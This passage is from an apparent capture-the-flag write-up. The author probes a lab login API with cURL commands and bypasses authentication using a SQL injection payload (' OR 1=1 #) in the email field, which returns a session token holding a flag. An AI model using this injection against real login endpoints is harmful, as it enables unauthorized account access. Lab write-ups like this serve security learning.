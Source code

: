 <div>
<center><img src="/images/pa-webapp-ctf/login-req.png"></center>
</div>

That IP address is the address of the target machine - this means that an API is exposed on port 8000.

## Logging in - FLAG1 and FLAG2

The first thing that I did was to make the request with cURL - that way I could easily tamper with the request's parameters. Here's a summary of the process:

{% highlight bash %}
root@attackdefense:~# curl http://192.48.37.3:8000/login; echo
{"Error": "Send a POST request instead."}
root@attackdefense:~# curl -X POST http://192.48.37.3:8000/login; echo
{"Error": "Send the parameters as JSON with the proper content-type header!"}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login; echo
{"Error": "Required JSON containing the necessary parameters."}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login -d '{}'; echo
{"Error": "Required email"}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login -d '{"email": "yakuhito@not.your.business"}'; echo
{"Error": "Required password"}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login -d '{"email": "yakuhito@not.your.business", "password": "password"}'; echo
{"Error": "Invalid credentials!"}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login -d "{\"email\": \"yakuhito@not.your.business\", \"password\": \"password\"}"; echo
{"Error": "Invalid credentials!"}
root@attackdefense:~# curl -X POST -H "Content-Type: application/json" http://192.48.37.3:8000/login -d "{\"email\": \"yakuhito@not.your.business' OR 1=1 # \", \"password\": \"password\"}"; echo
{"sessid": "eyJhZG1pbiI6IDAsICJ1c2VyaWQiOiAxLCAiZW1haWwiOiAiamFja2llQGNvZGUtaWRlLmNvbSIsICJGTEFHMiI6ICJmYzIzNWVkZmU5MTliODBiNGU4N2E3ZWY4NTJmMWY0ZiJ9"}
root@attackdefense:~#
{% endhighlight %}
